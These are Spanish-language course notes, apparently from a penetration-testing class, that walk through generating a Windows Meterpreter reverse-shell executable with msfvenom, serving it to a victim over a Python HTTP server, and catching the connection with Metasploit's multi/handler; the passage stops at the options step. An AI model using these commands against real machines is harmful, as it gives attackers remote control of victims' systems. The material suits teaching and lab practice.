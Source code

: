 ## Generar nuestros propios Payloads con Msfvenom 
---

Mario comienza explicando que Msfvenom es una herramienta de Metasploit que nos permite crear payloads personalizados para explotar vulnerabilidades en sistemas. Estos payloads son programas maliciosos que se ejecutan en la máquina víctima y permiten al atacante tomar el control del sistema.
Para crear un payload personalizado, utilizamos el siguiente comando:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=[Dirección IP de la máquina atacante] LPORT=[Puerto de escucha] -f exe -o pwned.exe
```

El recomienda buscar en google msfvenom linux o windows...

Una vez que hemos creado el payload (archivo `pwned.exe`), debemos transferirlo a la máquina víctima. Para ello, podemos utilizar un servidor HTTP simple en Kali Linux:

```bash
python3 -m http.server 80
```

Este comando inicia un servidor web en el puerto 80 de Kali Linux, lo que nos permite servir archivos a través de HTTP.

esto nos permite descargar el payload en la máquina víctima utilizando un navegador web o herramientas como `curl` o `wget`.

Una vez descargado el archivo, volvemos a la terminal de Kali Linux y ejecutamos Metasploit

Una vez abierto lanzamos el comando

```bash
use /multi/handler
```
Este comando nos permite utilizar el módulo de Metasploit que maneja las conexiones de los payloads que hemos creado. Es esencial para recibir la conexión inversa desde la máquina víctima una vez que se ejecute el payload.
Después, configuramos los parámetros necesarios para el módulo usando `show options`:


![Imagen multihandler](img/multihandler.png)